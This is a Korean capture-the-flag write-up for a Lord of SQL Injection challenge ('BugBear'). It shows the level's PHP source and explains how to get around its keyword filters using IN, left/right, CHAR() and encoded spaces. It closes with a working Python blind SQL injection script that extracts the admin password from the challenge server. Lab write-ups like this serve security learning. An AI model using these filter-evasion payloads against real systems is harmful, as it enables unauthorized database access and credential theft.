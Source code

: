 # Level 13 - BugBear

## 문제

![문제](screenshot/L13_Bugbear_prob.PNG)

## 문제 의도

- php 소스를 읽을 줄 아는가?
- Single Quote('), substr, ascii, =, or, and, " "(공백), LIKE, "0x"가 필터링 되었을 때 Blind SQLi를 수행할 수 있는가?

## 코드 분석

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~");
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe");
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe");
  /* 이번엔 Single Quote, sucstr, ascii, =, or, and, " ",
    like, 0x 등을 필터링했다. ;;*/
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear");
  highlight_file(__FILE__);
?>
```

## 문제 풀이

엄청 막혔던 문제다. 그동안 Blind-SQLi 할때 자주쓰던 LIKE문이 막히니 어떻게 해야할 지 감이 전혀 오지 않았는데, 인터넷에서 찾아보다보니 LIKE문과 비슷한 기능을 하는 **IN** 연산자을 찾을 수 있었다. IN 연산자는 인자로 준 문자열에 특정문자열이 있는지 판별할 수 있게 해준다. id IN("admin") 이렇게 사용하면 id에 "admin"이 들어가있는 레코드만 쿼리할 수 있게 된다.

먼저 **or 1** 로 모든 레코드를 쿼리한 다음 **&& id IN("admin")** 으로 id가 "admin"인 레코드를 쿼리한다. 그 다음 pw를 알아 내야 한다. 이땐 **IN(pw)** 로 pw필드 값을 가져와 나의 값과 비교하도록 만든다. 그런데 IN(pw)를 하면 pw 전체를 비교하게 되기 때문에 left()나 right()로 pw의 한자리씩 비교하도록 만들어야 한다. **"_(내가 비교할 문자)_ IN(right(left(pw, _비교할자리_), 1)** 으로 비교할 자리를 선택해 한 문자씩 비교해 알아내면 된다. 쿼리에서 공백은 %0D같은 거로 우회하고, or나 &&같은건 **||** 나 **%26%26(&&)** 으로 우회해야 한다. 또한 비교할 문자를 넣을때 Single Quote를 사용해야 하는데 지금은 막혔으니 **CHAR()** 함수로 SQL문에서 문자로 바꾼다.

그동안 노가다로 울며 겨자먹기로 Blind SQLi를 수행했는데 이번 문제는 도저히 안될것 같아 다른 사람의 코드를 참고하면서 Blind-SQLi를 수행할 파이썬 코드를 짰다.

```python
import urllib.request

admin = "admin"
password = ""

for pw_length in range(1, 9):
    for pw in range(48, 123):
        url1 = "http://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php"
        url2 = "?pw=0&no=-1%0D||%0D1%0D%26%26%0Did%0Din(\""+ admin +"\")%0D%26%26%0DCHAR("+ str(pw) +")%0Din%0D(right(left(pw,"+ str(pw_length) +"),1))%23"
        res = urllib.request.Request(url1+url2)
        res.add_header(
            "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
        res.add_header(
            "Cookie", "PHPSESSID=hn8ham9f8s1r1imi2v7h0p18o3"
        )
        re = urllib.request.urlopen(res).read()

        if str(re).find("<h2>Hello admin</h2>") != -1:
            print(chr(pw))
            break
```

다음을 실행하면 admin 레코드의 pw 필드 값이 하나씩 출력되게 된다. 역시 코딩이 편해ㅎ

![solve](screenshot/L13_Bugbear_clear.PNG)
